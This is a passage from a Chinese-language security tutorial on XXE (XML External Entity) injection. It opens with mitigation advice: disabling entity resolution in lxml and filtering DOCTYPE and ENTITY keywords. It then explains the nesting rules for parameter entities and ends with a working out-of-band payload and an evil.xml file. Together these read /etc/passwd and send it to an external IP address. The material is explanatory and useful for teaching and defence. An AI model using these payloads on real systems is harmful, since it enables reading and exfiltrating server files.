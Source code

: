 **Python**

```python
from lxml import etree
xmlData = etree.parse(xmlSource, etree.XMLParser(resolve_entities = False))
```

#### 过滤用户提交的XML数据

过滤关键词：`<!DOCTYPE`和`<!ENTITY`或者`SYSTEM`和`PUBLIC`

### 0x03 XXE的构造

参数实体以`%`开头，我们使用参数实体需要遵循两条原则：

* 参数实体只能在DTD声明中使用
* 参数实体中不能再引用参数实体

也就是说，直接在内部实体定义中引用另一个实体的这种方法是行不通的，因为定义的参数实体不能直接在当前DTD处被其他的参数实体在定义时引用

例如：

```xml
<!DOCTYPE root [
<!ENTITY % param1 "file:///etc/passwd">
<!ENTITY % param2 "http://112.74.35.205/?%param1"> %param2;
]>
```

这样的代码是行不通的

内部实体嵌套：

```xml
<!DOCTYPE root [
<!ENTITY % param1 "file:///etc/passwd">
<!ENTITY % param2 "<!ENTITY % param222 SYSTEM'http://112.74.35.205/?%param 1;'>">
%param2;
]>
```

同样，这样的代码也是行不通的，原因是不能再实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部实体连接，无论呃你曾是一般实体还是参数实体

那我们怎样才能实现嵌套呢

我们可以将嵌套的实体声明存放到一个外部文件中，这样做可以规避错误，而且这种方法可以应对过滤了`file`、`&`等字符的情况

payload：

```
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://112.74.35.205/evil.xml"> %remote;
%all;
]>
<root>&send;</root>
```

evil.xml

```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://112.74.35.205/?file=%file;'>">
```

实体`remote`，`all`，`send`的引用顺序很重要，首先对`remote`引用目的是将外部文件`evil.xml`引入到解释上下文中，然后执行`%all`，这时会检测到`send`实体，在`root`节点中引用`send`，就可以成功实现数据转发
